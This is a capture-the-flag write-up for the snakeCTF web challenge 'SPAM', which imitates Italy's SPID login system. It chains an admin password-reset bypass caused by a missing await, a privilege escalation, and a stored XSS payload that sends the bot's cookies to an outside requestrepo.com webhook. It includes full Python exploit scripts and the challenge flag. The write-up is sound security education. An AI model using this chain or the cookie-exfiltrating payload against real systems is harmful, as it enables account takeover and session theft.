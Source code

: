 # [Web] SPAM
**Final Solves**: 30

![CTF Challenge](../imgs/spam.jpg)

---

## Solution

When launching the challenge, we're greeted by yet another JavaScript-based web server, this time mimicking the italian authentication system **SPID**. <br/>
It's possible to sign up with the central Identity Provider (IDP), then you can use that account to log into the other available services.

![Home Page](../imgs/spam_idp.jpg)
![Home Page](../imgs/spam_signin.jpg)

By taking a quick look at the login flow, one detail immediately stands out: the "**Forgot Password?**" feature. It might look harmless, but since this is a CTF challenge, it's worth digging deeper into its implementation.

```javascript
  } else if (req.method === "PATCH") {
    const { token, newPassword } = req.body;
    if (!token || !newPassword) {
      return res.status(400).json({ error: "Token and new password are required" });
    }

    const tokenData = db.get("SELECT * FROM PasswordResetTokens WHERE token = ?", token);

    if (!tokenData) {
      return res.status(400).json({ error: "Invalid or expired token" });
    }
    const tokenUser = await getUserFromId(db, tokenData.userId);

    if (!tokenUser) {
      return res.status(400).json({ error: "Invalid user for the provided token" });
    }

    if (tokenData.used) {
      return res.status(400).json({ error: "This token has already been used" });
    }

    const now = new Date();
    if (new Date(tokenData.expiresAt) < now) {
      return res.status(400).json({ error: "This token has expired" });
    }
    
    if (!validatePassword(newPassword)) {
      return res.status(400).json({ error: "Password must be at least 8 characters long and contain at least one number and one special character and one capital letter" });
    }

    const hashedPassword = await bcrypt.hash(newPassword, 10);

    await db.run("UPDATE Users SET password = ? WHERE id = ?", hashedPassword, tokenUser.id);
    await db.run("UPDATE PasswordResetTokens SET used = ? WHERE token = ?", true, token);

    return res.status(200).json({ message: "Password has been successfully reset." });
  }
```

We can immediately spot a problem: `db.get(...)` is an **asynchronous** function, so without `await`, `tokenData` ends up being just a **Promise Object**. In JavaScript, a Promise is always truthy, which means the subsequent checks don't behave as intended. <br/>
The other main issue is the `getUserFromId` implementation:

```JavaScript
export async function getUserFromId(db, id) {
    return db.get("SELECT * FROM Users WHERE id = ?", id || 0);
};
```

Since `tokenData.userId` is **never resolved** (because `tokenData` is a promise), it passes `undefined` into `getUserFromId`. With the `id || 0` fallback, the query defaults to `id = 0` that, based on the setup.js file corresponds to the **admin account**.

```sql
INSERT OR IGNORE INTO Users (id, email, password, firstName, lastName, groupId)
VALUES (0, 'admin@spam.gov.it', '', 'Admin', 'User', 2);
```

As a result, `(!tokenUser)` is useless, as `getUserFromId` always returns the admin and `tokenData.used` and `tokenData.expiresAt` evaluate to `undefined`. **All of the validations silently fail**, and every reset request ends up targeting the admin user, without checking the validity of the token. <br/>
Effectively, any reset request with any token ends up resetting the admin's password:

```python
import requests  
  
baseurl = "https://bee0074947cfd48ea43b971be78dd8c7.spam.challs.snakectf.org/"  
  
resp = requests.post(baseurl+'api/auth/forgot', json={"email": "a@a.com"})  
print(resp.text)  

resp = requests.patch(baseurl+'api/auth/forgot', json={"token": "a@a.com", "newPassword": "Ab!c2daed"})  
print(resp.text) 
```

We can now log in as **admin** using the credentials we set. However, the flag is still out of reach. <br/>
Inspecting the source code reveals that the flag is stored in the cookies of a Puppeteer bot, which only visits the services for health checks (while logged in as admin). To steal it, we need to find an XSS vector. <br/>

While the four default services all used ExpressJS's built-in sanitization, there was **a fifth, hidden service**: `test` with `id = 0`.  

```javascript
app.get('/data', async (req, res) => {
    const sessionId = req.cookies.sessionId;
    if (!sessionId || !sessions.has(sessionId)) {
        return res.status(401).send('Unauthorized');
    }

    const userData = sessions.get(sessionId);
    if (!userData) {
        return res.status(404).send('User not found');
    }
    if (new Date(userData.expiry * 1000) < new Date()) {
        sessions.delete(sessionId);
        return res.redirect('/');
    }

    const data = await fetchUserData(userData.token);
    res.send(JSON.stringify(data, null, 2));
});
```

Unlike the others, this service had another major problem: The user data was rendered with the **wrong content type** (`text/html` instead of `application/json`) and **without any type of sanitization**. This makes it a perfect place to inject our payload.

![Home Page](../imgs/spam_testdata.jpg)
At this point, my focus shifted to **modifying the username**. Initially, I tried the "Update User" action in `/api/actions`. However, the implementation was broken and the action didn't work as intended at all. <br/>

I then changed approach and examined the `/api/internal/sync` endpoint. A quick review showed that it was **restricted to users with the "System" group permission**. So the question became: how could I escalate my privileges to access it?

```JavaScript
if (userData.groupName !== "System") {
    return res.status(403).json({ error: "You do not have permission to perform this action" });
}
```

Fortunately, while exploring `/api/actions`, I noticed the `assignGroup` action. It allowed me, as an admin, to **upgrade myself to any group**, so I chose the System one (`groupId = 0`).

```python
resp = s.post(baseurl+'api/actions',  
            headers={'Authorization': 'Bearer ' + authcookie},  
            json={  
                "action": "assignGroup",  
                "params": {  
                    "userId": 0,  
                    "groupId": 0  
                }  
            }  
)  
  
print(resp.text)
```

With System Permissions, I could finally access `/api/internal/sync` and **inject my payload**.

```python
resp = s.post(baseurl+'api/internal/sync?id=0',  
            headers={'Authorization': 'Bearer ' + externalauthcookie},  
            json={  
                "firstName": "<script>fetch('https://4eqpm59h.requestrepo.com/?cookie=' + encodeURIComponent(document.cookie));</script>"  
            }  
)

print(resp.text)
```

The final step was to **trigger the XSS** by invoking the "**healthCheck**" action, which made the Puppeteer bot visit the service and execute my injected script, ultimately stealing the admin's cookies.

```python
resp = s.post(baseurl+'api/actions',  
            headers={'Authorization': 'Bearer '+authcookie},  
            json={  
                "action": "healthCheck",  
                "params": {  
                    "platform": 0  
                }  
            }  
)

print(resp.text)
```

**Final script**:
```python
import requests  
  
baseurl = "https://6ec666e296a9c4ad8793f52daf601970.spam.challs.snakectf.org/"  

# Auth Exploit
requests.post(baseurl+'api/auth/forgot', json={"email": "a@a.com"})
requests.patch(baseurl+'api/auth/forgot', json={"token": "a@a.com", "newPassword": "Ab!c2daed"})
  
s = requests.Session()
resp = s.post(baseurl+'api/auth/signin', json={'email': 'admin@spam.gov.it', 'password': 'Ab!c2daed'})  
authcookie = resp.text  

# Privilege Escalation
s.post(baseurl+'api/actions',  
                  headers={'Authorization': 'Bearer '+authcookie},  
                  json={  
                      "action": "assignGroup",  
                      "params": {  
                          "userId": 0,  
                          "groupId": 0  
                      }  
                  }  
)  

# XSS
resp = s.get(baseurl+'authorize?serviceId=0', cookies={'token': authcookie})  
externalauthcookie = resp.text.split('/callback?token=')[1].split('">')[0]  
s.post(baseurl+'api/internal/sync?id=0',  
                  headers={'Authorization': 'Bearer '+externalauthcookie},  
                  json={  
                      "firstName": "<script>fetch('https://4eqpm59h.requestrepo.com/?cookie=' + encodeURIComponent(document.cookie));</script>"  
                  }  
)
  
# Invoking the bot
resp = s.post(baseurl+'api/actions',  
                  headers={'Authorization': 'Bearer '+authcookie},  
                  json={  
                      "action": "healthCheck",  
                      "params": {  
                          "platform": 0  
                      }  
                  }  
)  

```

**Finally, we will retrieve the flag from our webhook**:
**`snakeCTF{42m_3ur0s_w3ll_sp3nt_0n_s3cur1ty_49371192efa913d5}`**
